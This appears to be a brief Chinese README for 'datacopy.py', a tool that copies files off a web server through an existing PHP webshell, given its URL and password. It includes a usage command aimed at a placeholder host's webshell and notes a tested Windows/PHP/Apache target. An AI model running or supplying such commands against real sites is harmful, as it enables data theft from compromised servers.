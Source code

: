 datacopy：

# 用法：
datacopy.py    shell地址    密码     路径（默认网站根目录）

datacopy.py    http://www.exmaple.com/1.php    password     c://path

目前测试过的环境是：目标win，php，apache，编码gbk，本地win
以后会逐渐更新其他环境
